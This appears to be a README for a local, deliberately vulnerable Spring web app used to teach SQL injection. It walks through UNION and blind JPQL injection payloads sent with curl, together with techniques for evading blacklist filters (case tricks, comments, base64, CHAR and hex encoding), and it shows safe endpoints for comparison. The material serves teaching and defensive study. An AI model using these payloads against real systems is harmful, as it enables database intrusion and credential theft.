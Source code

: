 # Blacklist Demo for an SQLi vulnerable Spring Application

<p align="center">
  <img src="intro.svg">
</p>

## TL;DR

To build and run:
```
sudo docker build -t sqli_victim_webapp_java_spring .; sudo docker run --name victim.sqli.webapp_java_spring.tld -ti -p 127.0.0.1:5808:8080 -v "$(pwd)"/webapp_java_spring/:/usr/src/ sqli_victim_webapp_java_spring
```

To fill the database:

```
curl -X GET 'localhost:5808/sqlidemo/all'
curl -X POST localhost:5808/sqlidemo/add -d username=user -d password=password
```

Read username by id:

```
curl localhost:5808/sqlidemo/vulnbyid -d id=1
```

To get access to the database:
```
sudo docker exec -ti victim.sqli.webapp_java_spring.tld mysql --host localhost -uuser -ppassword sqli_example
```

## SQLi

### Java based

Check for union select:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,NULL -- "
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,'A'"
````

Enumerate database:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- "
curl -X GET localhost:5808/sqlidemo/vulnbyid\?id="1'+UNION+SELECT+NULL,NULL,(SELECT+@@VERSION)+--+"
```

#### Blacklist 

Use 

```
curl localhost:5808/sqlidemo/vulnbyid -d id -d blacklistconfig=help
```

to get a help display of all possible blacklist configurations.

##### Single Quote Replacement

Using Escape Sequences ([https://mariadb.com/kb/en/string-literals/](https://mariadb.com/kb/en/string-literals/)):

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1\' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=add_oddsinglequotes
```

or as keyword

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=add_oddsinglequotes
```

##### Any Uppercase

```  
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) -- " -d blacklistconfig=block_anyuppercase
```

##### Any Lowercase

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=block_anylowercase
```

##### Keyword Sequences Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union/**/select null,null,(@@version) -- " -d blacklistconfig=block_keywordsequences
```

##### Comment Double Dash Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) #" -d blacklistconfig=block_comment_doubledash
```

##### All Comment Types Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=block_comment_doubledash,block_comment_hash
```

##### String Detection I

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CONCAT('VERSIO','N')) -- " -d blacklistconfig=block_badstrings
```

or

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name='VERSIO' 'N') -- " -d blacklistconfig=block_badstrings
```


##### String Detection II

Using

```
echo -n 'VERSION'|base64
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=FROM_BASE64('VkVSU0lPTg==')) -- " -d blacklistconfig=block_badstrings,block_concatenation
```

##### String Detection III

Using

```
printf '%d %d %d %d %d %d %d' "'V" "'E" "'R" "'S" "'I" "'O" "'N"
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CHAR(86,69,82,83,73,79,78)) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64
```

##### String Detection IV  

Using

```
SELECT CONCAT('0x',HEX('VERSION'))
``` 

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=0x56455253494F4E) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64,block_char_function
```

##### All together

```
curl http://localhost:5808/sqlidemo/vulnbyid \       
\
-d id=\                                                                    
"1' unionunion select select null,null,(select variable_value from \       
information_schema.global_variables where variable_name=0x56455253494f4e) \
as username from user where id='1" \
\                       
-d blacklistconfig=\      
add_oddsinglequotes,\     
strip_keywordsequences,\  
block_comment_doubledash,\
block_comment_hash,\ 
block_anyuppercase,\ 
block_badstrings,\   
block_concatenation,\
block_base64,\     
block_char_function
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='p" 
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='a" 
```

## Safe Implementation

### Java based

```
curl localhost:5808/sqlidemo/safebyid -d id="1' AND SUBSTRING(password,1,1)='p"
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/safebyid2 -d id="1' AND SUBSTRING(password,1,1)='p"
```
